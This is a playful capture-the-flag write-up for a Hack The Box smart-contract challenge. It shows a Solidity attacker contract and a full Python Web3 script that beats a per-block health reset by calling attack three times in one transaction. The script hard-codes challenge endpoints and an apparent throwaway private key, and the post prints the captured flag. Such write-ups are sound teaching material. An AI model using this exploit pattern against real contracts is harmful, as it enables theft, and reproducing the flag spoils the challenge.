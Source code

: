 ```yaml
---
title: hacqueen-vs-eldorion
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](https://github.com/Hacqueen-fr/hacqueen-fr.github.io/raw/refs/heads/main/assets/hacqueenvsdrakepng)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forw...

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

### Solidity Contract

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

### Python Exploit Script

```python
from web3 import Web3
from solcx import compile_source, install_solc, set_solc_version
import socket
import time

RPC_URL = "http://94.237.57.68:53823"
PRIVATE_KEY = "0xd97be7b491c9349d726d8757df1ce9a65cc18f5cd6c9d497eb29284663107a15"
PLAYER_ADDRESS = "0x886180A2D97C803E011e744d6757f7E4b923E0a0"
TARGET_ADDRESS = "0x3BE1F55b1De2B149C77677052975c6C2C58BDe91"
SETUP_ADDRESS = "0x926B826A715B4B7438c88cD7d8d523A70f03Bd63"
INTERFACE_HOST = "94.237.57.68"
INTERFACE_PORT = 40453

SOURCE = """
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
"""

install_solc("0.8.28")
set_solc_version("0.8.28")
w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

compiled = compile_source(SOURCE)
interface = compiled.popitem()[1]
SlayerContract = w3.eth.contract(abi=interface['abi'], bytecode=interface['bin'])

deploy_tx = SlayerContract.constructor(TARGET_ADDRESS).build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 300000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(deploy_tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

if receipt.contractAddress is None:
    print("❌ Deployment failed.")
    exit(1)

slayer_address = receipt.contractAddress
slayer_instance = w3.eth.contract(address=slayer_address, abi=interface['abi'])

slay_tx = slayer_instance.functions.slay().build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 200000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(slay_tx)
w3.eth.send_raw_transaction(signed.raw_transaction)
time.sleep(2)

setup_abi = [{
    "inputs": [],
    "name": "isSolved",
    "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
    "stateMutability": "view",
    "type": "function"
}]
setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
solved = setup.functions.isSolved().call()

if solved:
    print("✅ Challenge Solved!")
    with socket.create_connection((INTERFACE_HOST, INTERFACE_PORT)) as sock:
        sock.recv(4096)
        sock.sendall(b"3\n")
        flag = sock.recv(4096).decode()
        print("[🏁] FLAG:\n" + flag)
else:
    print("❌ Eldorion still stands...")
```

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.

